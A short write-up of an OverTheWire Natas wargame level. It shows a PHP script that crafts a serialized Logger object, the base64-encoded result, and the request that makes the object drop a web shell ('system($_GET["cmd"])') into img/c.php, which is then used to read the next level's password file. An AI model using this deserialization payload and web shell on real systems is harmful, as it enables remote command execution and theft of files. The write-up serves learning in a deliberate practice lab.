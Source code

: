 ![/assets/images/natas/Untitled%2010.png](/assets/images/natas/Untitled%2010.png)

In this class Logger __construct and __destruct are present which are the magic methods and are called if there is unserialization of their objects. so let us create a php file to create a serialized object for the class Logger.

```php
<?php

class Logger{
        private $logFile= 'img/c.php';
        private $exitMsg = '<?php system($_GET["cmd"]); ?>';
        private $initMsg = "<?php include('/etc/passwd'); ?>";

}

echo urlencode(base64_encode(serialize(new Logger())));                                                                                                                                             

?>
```

```php
Tzo2OiJMb2dnZXIiOjM6e3M6MTU6IgBMb2dnZXIAbG9nRmlsZSI7czo5OiJpbWcvYy5waHAiO3M6MTU6IgBMb2dnZXIAZXhpdE1zZyI7czozMDoiPD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8%2BIjtzOjE1OiIATG9nZ2VyAGluaXRNc2ciO3M6MzI6Ijw%2FcGhwIGluY2x1ZGUoJy9ldGMvcGFzc3dkJyk7ID8%2BIjt9
```

Now the value of drawing is set to the value above and request is made. After the request is made a file called c.php is created with the content of exitMsg in it in img directory in our web server root folder. And making the get request to the file img/c.php?cmd=cat+/etc/natas_webpass.natas26, we get the password

